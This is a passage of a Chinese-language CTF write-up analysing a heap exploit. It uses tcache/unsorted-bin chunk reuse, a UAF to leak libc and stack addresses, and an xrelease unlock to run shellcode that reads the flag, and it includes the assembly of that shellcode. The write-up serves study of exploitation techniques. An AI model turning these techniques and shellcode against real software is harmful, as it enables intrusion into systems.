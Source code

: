 第一次发送，将构造好的shellcode填充到1024字节，注意此处必须要保证最后的申请空间大于0x400，否则在后面第二次申请堆块时将不会从这次free掉的大堆块中分割空间，因为小于等于0x400字节，这样的堆块free掉之后将会进入tcache bin中，第二次必须申请相同size的chunk才能申请到这一块空间，而第二次由于发送了EOF，只申请了0x50大小的空间，所以要想申请到同一个堆块，就必须让第一次被free掉的堆块落入到unsorted bin中。

第二次发送，通过`pwntools`中的`shutdown()`函数，发送EOF信息，然后循环中将会则此申请一个65+4大小的堆（实际为0x50），这个堆将会直接从unsorted bin中分配，也就是第一次存储了shellcode信息的那个堆，而此时shellcode相对应的偏移没有变化，这样当跳转实现成功，将会正确执行shellcode。注意，第二次只能发送EOF，原因在于程序读取输入的shellcode时，如果不足1024字节，必须要在最后一个字节为\x00时才会停止读取，而这样就会出现前一次写入的shellcode被\x00截断的情况，无法执行。

到了这里，仍然有一个问题——为什么要发送两次？

这个问题就必须要考虑到xrelease的解锁操作了，从上面的分析可以知道，xacquire将存储第一个随机数处的内存锁上，使用xrelease解锁时，需要将原始随机数的值赋给相应内存将随机数还原，才能解锁，而原始的随机数的值存在于栈上，第一次发送时没有办法寻找到栈的地址，所以发送两次是为了实现一个uaf，想办法泄露libc的地址，再通过libc泄露出栈地址，从而完成解锁操作，顺利执行shellcode。

## exp之shellcode汇编代码分析

`x64x6a`编写了一份汇编代码，用于生成shellcode，其中先通过uaf泄露libc地址和栈地址最终实现解锁的过程，后面的代码先后调用了`syscall_open`，`syscall_read`，`syscall_write`，从而获取flag并回显。

下面仅分析解锁过程，代码如下：

```assembly
section   .text
_start:
    jmp escape
    db 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
escape:
    ; get libc address from heap offset, it's in main arena
    mov rbx,[rel $ -0x18]

    ; calculate environ stack pointer from libc
    sub rbx,-0x23f8
    mov rdx, [rbx]

    ; get first random number from the stack
    mov edx, [rdx-0x584]

    ; load original [rdi] address
    lea rdi, [rel $ -0x87]

    ; end lock elision on [rdi] by storing the original random value
    xrelease mov [rdi], edx

    ; fix up the stack
    mov rsp,[rbx]
    add rsp, -0x18888
```

这里需要说明两次调用时堆的内容。第一次调用时，分配了一个0x450的堆块，如下所示：

```
chunk    +--------> +-------------+-------------+
                    |     		  |             |
                    +---------------------------+
                    |             |             |
                    +---------------------------+
                    |             |             |
                    +---------------------------+
                    |             |             |
                    +-------------+-------------+
                    |        |jmp      AAAA..   |
                    +---------------------------+
                    |AAAA...                    |
                    +---------------------------+
                    |AAAAAA...                  |
escape:  +--------> +---------------------------+
                    |                           |
```